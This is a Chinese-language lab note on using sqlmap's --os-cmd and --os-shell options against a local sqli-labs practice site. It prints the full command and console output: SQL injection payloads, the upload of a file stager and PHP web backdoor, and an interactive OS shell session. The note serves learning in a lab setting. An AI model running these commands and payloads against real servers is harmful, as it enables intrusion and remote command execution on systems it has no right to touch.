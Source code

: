 





## 1 【本地环境】

- Windows 10
- MySQL 5.7.26 
- 数据库root权限



## 2.【--os-cmd】

#### 2.1【输入】

执行命令：sqlmap -u http://127.0.0.1/sqli-labs-master/Less-1/?id=1 -p id -dbms mysql --os Windows --os-cmd ipconfig

输入Web根目录：D:\phpstudy_pro\WWW

#### 2.2【执行过程的配置项】

1. [INFO] going to use a web backdoor for command execution
   which web application language does the web server support?
   [1] ASP (default)
   [2] ASPX
   [3] JSP
   [4] PHP

2. do you want sqlmap to further try to provoke the full path disclosure? [Y/n]

unable to automatically retrieve the web server document root

3. what do you want to use for writable directory?
   [1] common location(s) ('C:/xampp/htdocs/, C:/wamp/www/, C:/Inetpub/wwwroot/') (default)
   [2] custom location(s)
   [3] custom directory list file
   [4] brute force search
4. please provide a comma separate list of absolute directory paths
5. do you want to retrieve the command standard output? [Y/n/a]



#### 2.3【执行过程Eg】

2.3.1 【测试注入点】

2.3.2【设置上传文件和路径并执行命令】

1. 设置后门文件类型
2. 测试绝对路径泄漏
3. 设置网站绝对路径，暂时不清楚[3]目录列表文件的功能
4. 提供定制的Web根目录位置，尝试上传暂存器和后门文件，并执行命令
5. 打印命令输出
6. 清除后门等文件，把执行过程的数据保存到本地

```

sqlmap.py -u http://127.0.0.1/sqli-labs-master/Less-1/?id=1 -p id -dbms mysql --os Windows --os-cmd ipconfig
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.5.8.8#dev}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

# 第一部分，测试注入点
[16:08:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 4635=4635 AND 'OLFg'='OLFg

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=1' AND GTID_SUBSET(CONCAT(0x71706a6a71,(SELECT (ELT(2745=2745,1))),0x716a787871),2745) AND 'segR'='segR

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 6401 FROM (SELECT(SLEEP(5)))kgwb) AND 'cRLW'='cRLW

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-2265' UNION ALL SELECT NULL,CONCAT(0x71706a6a71,0x7578796f545172704944794477656c70717759494f766f6768454f4d5377666e444c65554a6b6948,0x716a787871),NULL-- -
---
[16:08:19] [INFO] testing MySQL
[16:08:19] [INFO] confirming MySQL
[16:08:19] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.5.9, Apache 2.4.39
back-end DBMS: MySQL >= 5.0.0

# 第二部分，设置上传文件和路径并执行命令
## （1）设置后门文件类型
[16:08:19] [INFO] going to use a web backdoor for command execution
which web application language does the web server support?
[1] ASP (default)
[2] ASPX
[3] JSP
[4] PHP
> 4

## （2）测试绝对路径泄漏
do you want sqlmap to further try to provoke the full path disclosure? [Y/n] n
[16:08:39] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?

## （3）设置网站绝对路径，暂时不清楚[3]目录列表文件的功能
[1] common location(s) ('C:/xampp/htdocs/, C:/wamp/www/, C:/Inetpub/wwwroot/') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 2

## （4）提供定制的Web根目录位置，尝试上传暂存器和后门文件，并执行命令
please provide a comma separate list of absolute directory paths: D:\phpstudy_pro\WWW
[16:08:51] [WARNING] unable to automatically parse any web server path
[16:08:51] [INFO] trying to upload the file stager on 'D:/phpstudy_pro/WWW/' via LIMIT 'LINES TERMINATED BY' method
[16:08:51] [INFO] the file stager has been successfully uploaded on 'D:/phpstudy_pro/WWW/' - http://127.0.0.1:80/tmpugoke.php
[16:08:52] [INFO] the backdoor has been successfully uploaded on 'D:/phpstudy_pro/WWW/' - http://127.0.0.1:80/tmpbwezr.php

## （5）打印命令输出
do you want to retrieve the command standard output? [Y/n/a] y
command standard output:
---
Windows IP 配置
略
---

## （6）清除后门等文件，把执行过程的数据保存到本地
[16:09:44] [INFO] cleaning up the web files uploaded
[16:09:44] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 2 times
[16:09:44] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\127.0.0.1'
```



## 3.【--os-shell】

SQLMap命令和配置输入、运行过程的配置项与【--os-cmd】完全相同，执行过程也基本相同。因此从【设置上传文件和路径并执行命令】部分开始记录。不再对配置选项进行注释。

```
do you want sqlmap to further try to provoke the full path disclosure? [Y/n] n
[16:24:21] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('C:/xampp/htdocs/, C:/wamp/www/, C:/Inetpub/wwwroot/') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 2
please provide a comma separate list of absolute directory paths: D:\phpstudy_pro\WWW
[16:24:30] [WARNING] unable to automatically parse any web server path
[16:24:30] [INFO] trying to upload the file stager on 'D:/phpstudy_pro/WWW/' via LIMIT 'LINES TERMINATED BY' method
[16:24:30] [INFO] the file stager has been successfully uploaded on 'D:/phpstudy_pro/WWW/' - http://127.0.0.1:80/tmpuvjfg.php
[16:24:30] [INFO] the backdoor has been successfully uploaded on 'D:/phpstudy_pro/WWW/' - http://127.0.0.1:80/tmpbrhid.php

## 开始进入交互shell
[16:24:30] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> cd
do you want to retrieve the command standard output? [Y/n/a] y
No output
os-shell> chdir
do you want to retrieve the command standard output? [Y/n/a] y
command standard output: 'D:\phpstudy_pro\WWW'
os-shell> exit
[16:26:48] [INFO] cleaning up the web files uploaded
[16:26:48] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 2 times
[16:26:48] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\127.0.0.1'
```







